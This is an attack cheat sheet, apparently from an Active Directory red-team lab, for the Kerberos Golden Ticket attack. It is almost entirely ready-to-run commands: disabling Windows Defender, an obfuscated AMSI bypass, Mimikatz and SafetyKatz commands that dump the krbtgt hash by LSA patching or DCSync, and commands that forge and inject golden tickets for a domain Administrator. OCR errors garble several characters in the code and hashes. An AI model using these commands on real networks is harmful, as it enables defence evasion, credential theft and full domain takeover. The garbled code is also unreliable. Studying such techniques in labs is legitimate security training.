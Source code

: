 # Golden Ticket

## Invoke-Mimikatz

### Disable Defender \[ Important ]

```
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

### AMSI bypass \[ Important ]

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{O}"-F'F', 'rE' ) ) 3; ( GeT-VariaBle ( "1Q2U" + "zX" )  -VaL_s+)."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{@}{5}" -f'Util', 'A', 'Amsi','.Management.', 'utomation.','s', 'System' ))."g`etf`iE1D"( ( "{O}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{O}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )

S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

### Execute mimikatz on DC as DA to get krbtgt hash

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

### Create a ticket on any machine \[ "pass the ticket" attack]

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /krbtgt:a9b30e5bO0dc865eadcea941le4ade72d /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

### List Kerberos services available

```
klist
```

### To use the DCSync feature for getting krbtg hash execute the below command with DA privileges

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

```
Using the DCSync option needs no code execution (no need to run Invoke-Mimikatz) on the target DC
```

***

## Binaries

### Using SafetyKatz

```
C:\Users\Public\SafetyKatz.exe "lsadump::lsa /patch" "exit" 
or
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

### On a machine which can reach the DC over network (Need elevation):

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

